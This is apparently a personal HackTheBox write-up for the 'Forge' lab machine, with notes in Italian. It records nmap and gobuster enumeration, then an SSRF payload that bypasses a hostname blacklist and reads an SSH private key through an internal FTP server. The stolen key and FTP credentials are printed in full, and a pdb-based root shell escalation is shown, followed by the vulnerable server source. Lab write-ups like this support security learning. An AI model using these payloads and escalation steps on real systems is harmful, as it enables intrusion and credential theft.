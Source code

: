 #+TITLE: HTB - Forge
#+AUTHOR: Leonardo Tamiano

* Enumeration
** nmap
*** nmap -sC -sV forge
  #+begin_example

Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-30 18:37 CET
Nmap scan report for forge (10.129.159.4)
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:78:65:66:29:e4:87:6b:3c:cc:b4:3a:d2:57:20:ac (RSA)
|   256 79:df:3a:f1:fe:87:4a:57:b0:fd:4e:d0:54:c6:28:d9 (ECDSA)
|_  256 b0:58:11:40:6d:8c:bd:c5:72:aa:83:08:c5:51:fb:33 (ED25519)
80/tcp open     http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://forge.htb
Service Info: Host: 10.129.159.4; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap
.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.89 seconds

  #+end_example
*** nmap -p- forge
  #+begin_example

Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-30 18:37 CET
Nmap scan report for forge (10.129.159.4)
Host is up (0.077s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE    SERVICE
21/tcp filtered ftp
22/tcp open     ssh
80/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 35.54 seconds

  #+end_example

** gobuster
*** leo@kali:~/repos/forge$ gobuster vhost -w ~/repos/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://forge.htb -r
    #+begin_example
==============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://forge.htb
[+] Method:       GET
[+] Threads:      10
[+] Wordlist:     /home/leo/repos/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/01/30 18:57:17 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.forge.htb (Status: 200) [Size: 27]    
    #+end_example

** forge.htb
*** error
    #+begin_example
An error occured! Error : HTTPConnectionPool(host='10.10.14.86', port=80): Max retries exceeded with url: /omg.jpg (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7fb38939dc70>: Failed to establish a new connection: [Errno 111] Connection refused'))    
    #+end_example

*** SSRF
    Nella pagina http://forge.htb/upload facendo 'upload from url' è
    presente una SSRF 
    
    #+begin_example
    http://admin.Forge.htb
    #+end_example

    In realtà va bene cambiando qualche lettera da minuscola a maiscuola in "forge.htb"

    -----------------------

    Chain di due SSRF per prendere chiave rsa utilizzando ftp interno
    accessibile tramite web server admin.forge.htb con endpoint get
    ~/upload?u=<FTP-URL>~.
    
    #+begin_example
    http://admin.fOrge.htb/upload?u=ftp://user:heightofsecurity123!@localHOST/.ssh/id_rsa
    #+end_example

** admin.forge.htb

*** / (index.html
    
    #+begin_src html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>    
    #+end_src

*** /upload

    Notiamo in particolare il codice
    
    #+begin_src html
    <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
    #+end_src

    che prima non c'era nella versione non-admin del sito (forge.htb)

    #+begin_src html
<!DOCTYPE html>
<html>
<head>
    <title>Upload an image</title>
</head>
<body onload="show_upload_local_file()">
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/upload.css">
    <script type="text/javascript" src="/static/js/main.js"></script>
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <center>
        <br><br>
        <div id="content">
            <h2 onclick="show_upload_local_file()">
                Upload local file
            </h2>
            <h2 onclick="show_upload_remote_file()">
                Upload from url
            </h2>
            <div id="form-div">
                
            </div>
        </div>
    </center>
    <br>
    <br>
</body>
</html>    
    #+end_src

*** /announcements
    #+begin_src html
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>    
    #+end_src

** internal ftp
   Credenziali scritta in http://admin.forge.htb/announcements

   #+begin_example
   user:heightofsecurity123!
   #+end_example
   
   Per rubare chiave rsa dobbiamo utilizzare il server ftp interno
   tramite il seguente payload
   
   #+begin_example
   http://admin.fOrge.htb/upload?u=ftp://user:heightofsecurity123!@localHOST/.ssh/id_rsa
   #+end_example
   
   una volta eseguito il payload dobbiamo andare all'url ritornato dal
   sito per prendere la flag.
** rsa_key
   #+begin_example
-----BEGIN OPENSSH PRIVATE KEY-----
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
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----   
   #+end_example

* PrivEsc
** per user flag
   La user flag si trova nella home directory dell'utente ~user~ non
   appena entriamo tramite ssh.

** user@forge.htb
*** sudo -l
    #+begin_example
Matching Defaults entries for user on forge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py    
    #+end_example

*** cat /opt/remote-manage.py
    #+begin_src python
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()    
    #+end_src
** per flag root
   L'idea è quella di avviare come root lo script in /opt/remote-manage.py
   
   #+begin_src sh
sudo /usr/bin/python3 /opt/remote-manage.py       
   #+end_src
   
   #+begin_example
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:49893   
   #+end_example

   dopo ci connettiamo alla porta che genera tramite nc
   
   #+begin_src sh
nc localhost 49893
   #+end_src

   mettiamo la password
   
   #+begin_example
   Enter the secret passsword: secretadminpassword
Welcome admin!
   #+end_example

   e come opzione poi mettiamo un qualcosa di diverso da un
   intero-stringa, tipo "fgfg"
   
   #+begin_example
   fgfg
   #+end_example

   a questo punto la seguente linea di codice va in exception 
   
   #+begin_src python
   option = int(clientsock.recv(1024).strip())
   #+end_src

   viene eseguito il codice per gestire l'exception
   
   #+begin_src python
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)   
   #+end_src

   e ci viene spawnata una shell ~pdb~ per debuggare il programma. 

   Dato che questa shell è un interprete di python, e dato che esegue
   da root, per avviare una shell da root ci basta fare
   
   #+begin_src python
(Pdb) import pty; pty.spawn("/bin/bash")
   #+end_src
** root@forge.htb
*** root@forge:/var/www/forge/forge# cat routes.py 

    #+begin_src python
from . import app
from flask import render_template, request, send_from_directory,\
    redirect
import werkzeug
import requests
import random
import string

chars = string.ascii_letters + string.digits
blacklist = ["forge.htb", "127.0.0.1", "10.10.10.10", "::1", "localhost",
             '0.0.0.0', '[0:0:0:0:0:0:0:0]']

navigation = [
    {
        "class": "",
        "href": "/",
        "caption": "Gallery",
    },
    {
        "class": "align-right",
        "href": "/upload",
        "caption": "Upload an image",
    }
]


@app.route("/")
def index():
    return render_template("index.html", navigation=navigation)


@app.route("/upload", methods=["GET", "POST"])
def upload():
    if request.method == 'POST' and 'local' in request.form.keys():
        return upload_local_file()
    elif request.method == 'POST' and 'remote' in request.form.keys():
        return upload_remote_file()
    return render_template("upload.html", navigation=navigation)


def upload_remote_file():
    if 'url' not in request.form.keys():
        return render_template("upload.html", navigation=navigation,
                               message="No url defined!")
    if request.form['url']:
        try:
            url = request.form['url']
            if not (url.startswith('http://')
                    or url.startswith('https://')):
                return render_template('upload.html', navigation=navigation,
                                       message="Invalid protocol! Supported protocols: http, https")
            if any([i for i in blacklist if i in url]):
                return render_template('upload.html', navigation=navigation,
                                       message="URL contains a blacklisted address!")
            req = requests.get(url)
            name = rand(20)
            f = open(app.config['UPLOAD_FOLDER'] + name, 'wb')
            f.write(req.content)
            f.close()
            req.close()
            return render_template('upload.html', navigation=navigation,
                                   message="File uploaded successfully to the following url:",
                                   url="http://forge.htb/uploads/" + name)
        except Exception as e:
            return render_template('upload.html', navigation=navigation,
                                   message=f'An error occured! Error : {e}')
    return render_template("upload.html", navigation=navigation,
                           message="URL cannot be empty!")


def rand(num):
    return ''.join([random.choice(chars) for _ in range(num)])


def upload_local_file():
    f = request.files['file']
    if f.filename == '':
        return render_template("upload.html", navigation=navigation,
                               message="No file defined!")
    name = rand(20)
    f.save(app.config['UPLOAD_FOLDER'] + name)
    return render_template('upload.html', navigation=navigation,
                           message="File uploaded successfully to the following url:",
                           url="http://forge.htb/uploads/" + name)


@app.route('/uploads')
def redirect_to_uploads():
    return redirect('/uploads/', code=301)


@app.route('/uploads/<file>')
def serve_uploaded_file(file=None):
    if file:
        name = werkzeug.utils.secure_filename(file)
        #return send_from_directory(app.config['UPLOAD_FOLDER'], name)
        resp = send_from_directory(app.config['UPLOAD_FOLDER'], name)
        resp.headers['Content-Type'] = "image/jpg"
        return resp



@app.errorhandler(werkzeug.exceptions.HTTPException)
def handle_error(e):
    return e, e.code    
    #+end_src
*** root@forge:/var/www/admin/admin# cat routes.py 
    
    #+begin_src python
from . import app
from flask import render_template, request
import werkzeug
import requests
import random
import string
from functools import wraps
import shlex
import subprocess

chars = string.ascii_letters + string.digits
blacklist = ["forge.htb", "127.0.0.1", "10.10.10.10", "::1", "localhost",
             '0.0.0.0', '[0:0:0:0:0:0:0:0]']

supported_schemas = ["http", "https", "ftp", "ftps"]

navigation = [
    {
        "class": "",
        "href": "/",
        "caption": "Portal home",
    },
    {
        "class": "align-right margin-right",
        "href": "/announcements",
        "caption": "Announcements",
    },
    {
        "class": "align-right",
        "href": "/upload",
        "caption": "Upload image",
    }
]


announce = [
    "An internal ftp server has been setup with credentials as \
user:heightofsecurity123!",
    "The /upload endpoint now supports ftp, ftps, http and https\
 protocols for uploading from url.",
    "The /upload endpoint has been configured for easy scripting\
 of uploads, and for uploading an image, one can simply pass\
 a url with ?u=<url>."
]


def ensure_localhost(route_handler):
    @wraps(route_handler)
    def check_ip(*args):
        if request.remote_addr == '127.0.0.1':
            return route_handler(*args)
        return "Only localhost is allowed!\n"
    return check_ip


@app.route("/")
@ensure_localhost
def index():
    return render_template("index.html", navigation=navigation)


@app.route("/upload", methods=["GET", "POST"])
@ensure_localhost
def upload():
    if request.method == 'POST' and 'local' in request.form.keys():
        return upload_local_file()
    elif request.method == 'POST' and 'remote' in request.form.keys():
        if 'url' not in request.form.keys():
            return render_template("upload.html", navigation=navigation,
                                   message="No url defined!")
        return upload_remote_file(request.form['url'])
    elif request.method == "GET" and 'u' in request.args.keys():
        return upload_from_url()
    return render_template("upload.html", navigation=navigation)


def upload_remote_file(url):
    if url:
        try:
            if not (any([x for x in supported_schemas if url.split('://')[0] == x])):
                return render_template('upload.html', navigation=navigation,
                                       message="Invalid protocol! Supported protocols: http, https, ftp, ftps")
            if any([i for i in blacklist if i in url]):
                return render_template('upload.html', navigation=navigation,
                                       message="URL contains a blacklisted address!")
            req = requests.get(url)
            name = rand(20)
            f = open(app.config['UPLOAD_FOLDER'] + name, 'w')
            f.write(req.text)
            f.close()
            req.close()
            return render_template('upload.html', navigation=navigation,
                                   message="File uploaded successfully to the following url:",
                                   url="http://forge.htb/uploads/" + name)
        except Exception as e:
            return render_template('upload.html', navigation=navigation,
                                   message=f'An error occured! Error : {e}')
    return render_template("upload.html", navigation=navigation,
                           message="URL cannot be empty!")


def rand(num):
    return ''.join([random.choice(chars) for _ in range(num)])


def upload_local_file():
    f = request.files['file']
    if f.filename == '':
        return render_template("upload.html", navigation=navigation,
                               message="No file defined!")
    name = rand(20)
    f.save(app.config['UPLOAD_FOLDER'] + name)
    return render_template('upload.html', navigation=navigation,
                           message="File uploaded successfully to the following url:",
                           url="http://forge.htb/uploads/" + name)


def upload_from_url():
    u = request.args['u']
    if u:
        if u.startswith('http://') or u.startswith('https://'):
            return upload_remote_file(u)
        elif u.startswith('ftp://') or u.startswith('ftps://'):
            u = shlex.quote(u)
            return subprocess.check_output('curl ' + u, shell=True)
        return "Invalid protocol! Supported protocols: http, https, ftp, ftps.\n"
    return 'URL not given!\n'


@app.errorhandler(werkzeug.exceptions.HTTPException)
@ensure_localhost
def handle_error(e):
    return e, e.code


@app.route('/announcements')
@ensure_localhost
def announcements():
    return render_template('announcements.html', announcements=announce, navigation=navigation)    
    #+end_src
